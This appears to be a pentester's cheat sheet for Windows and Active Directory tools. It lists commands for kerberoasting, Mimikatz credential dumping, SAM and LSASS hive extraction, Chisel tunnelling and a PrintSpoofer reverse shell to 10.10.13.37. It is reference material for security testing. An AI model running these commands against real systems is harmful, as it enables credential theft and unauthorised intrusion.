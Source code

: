 # Tools

### Inveigh.ps1
https://github.com/Kevin-Robertson/Inveigh/blob/master/Inveigh.ps1  
Similar to Responder, for powershell  
PS C:\> Import-Module .\Inveigh.ps1  
PS C:\> (Get-Command Invoke-Inveigh).Parameters  
PS C:\> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y  


### PowerView.ps1
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1  
Replacements for various Windows net*  
PS C:\> import-module .\PowerView.ps1  
PS C:\> Get-DomainPolicy  
PS C:\> Get-DomainUser * -spn | select samaccountname  #to extract TGS tickets  


### nc.exe
https://github.com/int0x33/nc.exe/  
netcat Win binary, for port listening and reverse shell  


### printspoofer
To escalate with SeImpersonatePrivilege & SeAssignPrimaryTokenPrivilege  
PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"  


### Rubeus
https://github.com/GhostPack/Rubeus  
Kerberoasting from windows machine  
PS C:\> .\Rubeus.exe kerberoast /stats  #to gather some stats  
PS C:\> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap  #/nowrap to copy hash easily  
PS C:\> .\Rubeus.exe kerberoast /user:"username" /nowrap  #to test spesific user  
PS C:\> .\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap  #RC4 encryption for a new service ticket  


### SharpHound.exe
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors  
To gather AD data for Bloodhound  


### Snaffler.exe
https://github.com/SnaffCon/Snaffler  
Credential Enumeration  
PS C:\> .\Snaffler.exe  -d <DomainName> -s -v data  
  

### Chisel
https://github.com/jpillora/chisel  
Pre-compiled Chisel for port-forwarding, both linux and windows  
sudo ./chisel server --reverse -v -p 1234 --socks5  
./chisel.exe client -v <YourIP>:1234 R:socks  
  

### Lazagne
https://github.com/AlessandroZ/LaZagne  
checks for passwords in common locations  

  
### Linpeas / Winpeas
Checks for possible priv esc for linux and windows  
  
  
### Mimikatz
https://github.com/ParrotSec/mimikatz  
  
mimikatz # privilege::debug  
mimikatz # sekurlsa::logonpasswords  

#use lsass.DMP and put results to lsass.txt  
#lsass.DMP can be acquired with right click lsass.exe and create dump method from task manager in details  
mimikatz # sekurlsa::minidump lsass.DMP  
mimikatz # log lsass.txt  
mimikatz # sekurlsa::logonPasswords  

#for dcsync abuse  
mimikatz # lsadump::dcsync  
mimikatz # lsadump::dcsync /user:<UserName>  #for spesific user only  


reg save HKLM\SAM sam.h  #to Dump SAM  
reg save HKLM\SYSTEM sys.h  #to Dump SYSTEM  
reg save HKLM\SECURITY sec.h  #to Dump SECURITY  
mimikatz # lsadump::sam sys.h sam.h sec.h  #get hashes from these files with mimikatz  

#secretsdump.py from impacket could also be used  
/usr/lib/python3/dist-packages/impacket/examples/secretsdump.py  # kali location  
python3 secretsdump.py LOCAL -system system.h -sam sam.h -security sec.h  
  
  
  
  
  
  
  
  










